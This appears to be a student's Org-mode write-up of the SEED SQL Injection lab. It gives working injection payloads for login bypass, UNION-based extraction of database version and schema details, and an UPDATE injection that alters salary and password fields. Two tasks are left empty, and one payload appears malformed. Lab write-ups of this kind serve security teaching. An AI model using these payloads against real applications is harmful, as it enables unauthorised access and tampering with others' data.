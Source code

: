 * Setup
*** cd category-web/Web_SQL_Injection/Labsetup
*** docker-compose up
*** add 10.9.0.5 with host name www.seed-server.com in /etc/hosts file in the host machine
*** Go to www.seed-server.com and if you find the login page then the setup is complete


* Task 1
** Approach 1
*** Type {{admin';#}} in the username field and anything in the password field
    In the code we can see the comparison of name with 'admin', so there must be an username with 'admin'.
*** Then all the usernames will be shown from where we can find Alice.
*** Type {{Alice;#}} in the username field and anything in the password field and viola!

** Approach 2
*** Insert {{' OR TRUE;#}} in the username field and we are in!
    This works because we are essentially nullyfying the where clause with 'OR TRUE', so the result set contains all the records.
    But in the PHP code, we can see that all the records from the sql results are pushed into the array and only the 0th index is accessed as logged in user.

    #+BEGIN_SRC php
      /* convert the select return result into array type */
      $return_arr = array();
      while($row = $result->fetch_assoc()){
        array_push($return_arr,$row);
      }

      /* convert the array type to json format and read out*/
      $json_str = json_encode($return_arr);
      $json_a = json_decode($json_str,true);
      $id = $json_a[0]['id'];
    #+END_SRC

** Screenshot
#+CAPTION: Login as Alice
[[./screenshots/assignment/task-1-login-alice.png]]


* Task 2
** Approach
*** We can get the columns of a table using the following query
      #+BEGIN_SRC sql
        select column_name from information_schema.columns where table_name = "credential";
      #+END_SRC
*** After that we can use row_number over the partition and get the column numbers 
      #+BEGIN_SRC sql
        select ordinal_position from information_schema.columns where table_name = "credential" and column_name = "Name";
      #+END_SRC
*** Now we can use this expression combined union attack to inject the code and we will get the column number of Name from 
      Inject {{' OR FALSE UNION SELECT 1, (select ordinal_position from information_schema.columns where table_name = "credential" and column_name = "Name"),null,null,null,null,null,null,null,null,null #}}

** Screenshot
[[./screenshots/assignment/task-2-name-column-number.png]]


* Task 3
** Union Attack
*** Insert {{' OR FALSE UNION SELECT 1,version(),null,null,null,null,null,null,null,null,null #}} in the username
    This works because we are essentially nullyfying the first SELECT using FALSE condition and
    then unioning the result of a select statement with equal number of resultants.
    In the manufactured select clause id cannot be null because the code assumes if id exists then user exists, so we put in dummy 1 as id
    and our targeted version() in place of the name field. All other values are null since their contents are unnecessary in this context.

** Screenshot
#+CAPTION: MYSQL Version
[[./screenshots/assignment/task-3-mysql-version.png]]


* Task 4

* Task 5

* Task 6
** Approach 1
*** If we provide eid with {{1' OR TRUE}} and password with {{pass' OR TRUE}} the transferred SQL looks like below.
    #+BEGIN_SRC sql
      SELECT * FROM customers
      WHERE eid='1' OR TRUE AND
      password='pass' OR TRUE;
    #+END_SRC
    This in turn will either spit up all users or sign me as first user.
    Or we can inject other conditions instead of TRUE to get access for a specific user if we know the columns of the database.
** Approach 2
*** If we provide eid with {{' TRUE or \slash​\ast}} and password with {{\ast​\slash;--}} the transferred SQL looks like below.
    #+BEGIN_SRC sql
      SELECT * FROM customers
      WHERE eid='' or TRUE /*
      password='*/;-- OR TRUE;
    #+END_SRC
    This in turn will either spit up all users or sign me as first user.
    Or we can inject other conditions instead of TRUE to get access for a specific user if we know the columns of the database.
    
* Task 7
*** If we set name {{Reddington', salary=1}} and we know an information like eid or other column value unique to the attacker we can update any columns we want.
    Here we are assuming that we know the employee id, then we have to pass {{1';--}} to the employee id.
    #+BEGIN_SRC sql
      UPDATE employee
      SET name='Reddington', salary=1, password='$hashed_newpwd'
      WHERE eid = '1';--and password='$hashed_oldpwd';
    #+END_SRC
